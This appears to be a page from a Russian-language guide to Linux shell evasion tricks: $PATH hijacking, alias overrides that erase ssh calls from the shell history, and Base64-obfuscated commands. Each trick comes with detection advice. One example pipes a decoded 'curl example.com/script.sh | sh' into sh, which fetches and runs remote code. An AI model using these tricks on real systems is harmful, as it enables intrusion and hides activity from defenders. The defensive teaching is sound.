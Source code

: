 
## Уровень 1: Оболочка и окружение пользователя

Трюки, направленные на обман пользователя, сокрытие команд в интерактивной сессии или изменение поведения стандартных утилит на уровне командной оболочки.

[⬆️ К оглавлению](#toc)

---

### 1.1. Подмена команд через $PATH

*   **🎯 Цель:** Перехватить вызов стандартной команды (например, `ls`), заставив систему выполнить вредоносный скрипт.
*   **⚙️ Механизм:** Оболочка ищет исполняемые файлы в директориях из переменной `$PATH` по порядку. Поместив директорию с поддельным файлом в начало `$PATH`, мы перехватываем вызов.
*   **👨‍💻 Пример:**
    ```bash
    mkdir /tmp/fake_bin
    echo 'echo "Перехваченный вызов ls!"; /bin/ls "$@"' > /tmp/fake_bin/ls
    chmod +x /tmp/fake_bin/ls
    export PATH=/tmp/fake_bin:$PATH
    ls
    ```
*   **🛡️ Обнаружение и Противодействие:** Проверять `echo $PATH` на наличие подозрительных директорий. Использовать `which <команда>`. В скриптах вызывать утилиты по полному пути (`/bin/ls`). 

[⬆️ К оглавлению](#toc)

---

### 1.2. Подмена команд через `alias`

*   **🎯 Цель:** Изменить поведение стандартной команды на уровне текущей сессии.
*   **⚙️ Механизм:** В `.bashrc` или аналогичном файле создается псевдоним (`alias`), который переопределяет системную команду.
*   **👨‍💻 Пример:**
    ```bash
    # Алиас, который выполняет ssh и сразу удаляет команду из истории
    alias ssh='function _ssh() { /usr/bin/ssh "$@"; history -d $(history 1); }; _ssh'
    ```
*   **🛡️ Обнаружение и Противодействие:** Выполнить команду `alias` для просмотра всех псевдонимов. Для однократного вызова оригинала использовать `\` перед командой (`\ls`). 

[⬆️ К оглавлению](#toc)

---

### 1.3. Запутывание команд (Base64)

*   **🎯 Цель:** Скрыть истинное назначение команды в истории или логах.
*   **⚙️ Механизм:** Команда кодируется в `Base64`, а затем декодируется и передается на выполнение через pipe в `sh` или `bash`.
*   **👨‍💻 Пример:**
    ```bash
    # Команда 'curl example.com/script.sh | sh' в Base64
    echo "Y3VybCBleGFtcGxlLmNvbS9zY3JpcHQuc2ggfCBzaAo=" | base64 -d | sh
    ```
*   **🛡️ Обнаружение и Противодействие:** Искать в логах вызовы `base64 -d | sh`. Ограничивать права на выполнение интерпретаторов.
